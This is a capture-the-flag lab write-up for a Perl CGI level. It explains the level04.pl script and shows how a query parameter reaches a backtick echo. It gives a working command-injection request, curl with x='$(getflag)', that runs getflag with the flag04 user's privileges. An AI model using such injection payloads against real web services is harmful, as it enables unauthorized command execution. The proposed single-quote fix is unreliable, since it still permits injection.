

# Security Vulnerability for Level04

The script `level04.pl` is not protected against OS command injection, because it prints anything received from parameters.

Better to add singled quotes so the output will be `$(command)` instead of the value of `$(command)`.
```perl
print `echo '$y' 2>&1`;
```
instead of:
```perl
print `echo $y 2>&1`;
```

## Finding the Password for the `flag04` User

Connect as `level04` user.  
There is a file on the root of repository `level04.pl`.

### 1. What is `.pl`

The PL file extension is most commonly used for source code written in the Perl programming language. This code is used to develop script. PL files and the scripts they contain are used for server scripting, text parsing, and server administration, as well as as CGI scripts and more.

#### 1. Explain Perl Syntax from File `level04.pl`

Path to the interpreter:
```perl
#!/usr/bin/perl
```	

A possible hint of the level04:
```perl
# localhost:4747
```

Include CGI module with a `param` parameter:
```perl
use CGI qw{param};
```

Print a header of web request or web response:
```perl
print "Content-type: text/html\n\n";
```

Sub is a function named `x`:
```perl
sub x {
```

Variable `y` is assigned to first parameter received in with function `x` call:
```perl
  $y = $_[0];
```

Execute the command `echo` at the stdout and print the result:
```perl
  print `echo $y 2>&1`;
}
```

Call `x` function, param is a function that receive the HTTP request's parameter. For example:
```
http://localhost:4747/?x=hello
```
Parameter is: hello
```perl
x(param("x"));
```
same as:
```perl
x("hello");
```

Conclusion: the file is a cgi script that parse http request, take parameter `x` from query, call function `x` with this parameter, function `x` prints this param to the STDOUT.

### 2. Check a Running Server

Check a running server on the provided in the comment port: 
```perl
# localhost:4747
```

```bash
netstat -ano | grep 4747
```
Output:
```bash
tcp6       0      0 :::4747                 :::*                    LISTEN      off (0.00/0/0)
```
Result: the server is listening on the port `4747`.

### 3. Send a Request via `curl`

```bash
curl http://localhost:4747
```
Output: new line

```bash
curl http://localhost:4747/test
```
Output:
```http
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /test was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at localhost Port 4747</address>
</body></html>
```

Result: the server is responding

Send a request with query parameter `x`:
```bash
curl http://localhost:4747/?x=hello
```
Output: hello

Conclusion: the cgi script `level04.pl` is running -> function `x` prints the first parameter.
The idea is to make the script print the result of `getflag` command. It is possible because the script file has permissions:
```bash
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```
`s` explained in level03/flag_finding.md.  
During cgi `level04.pl` execution this file has privileges of `flag04`.

### 4. Inspect Command Injection

Link: [Detecting and Exploiting OS Command Injection Vulnerabilities](https://medium.com/@tareshsharma17/detecting-and-exploiting-os-command-injection-vulnerabilities-cf6bf7a97ef5)


  
`$(command)` prints the commands result

Command:
```bash
curl http://localhost:4747/?x=$(getflag)
```
doesn't work because before send the request to the server, `shell` gets the value of $getflag, which will be `Nope there is no token here for you sorry. Try again :)` because `level04` doesn't have the permission to see the flag.

We need to send the request with `$(getflag)` and not the value of `$(getflag)`, so it is executed with `flag04` priveleges.
```bash
curl http://localhost:4747/?x='$(getflag)'
```

Result: Check flag.Here is your token.
It retrieves the password for the next level.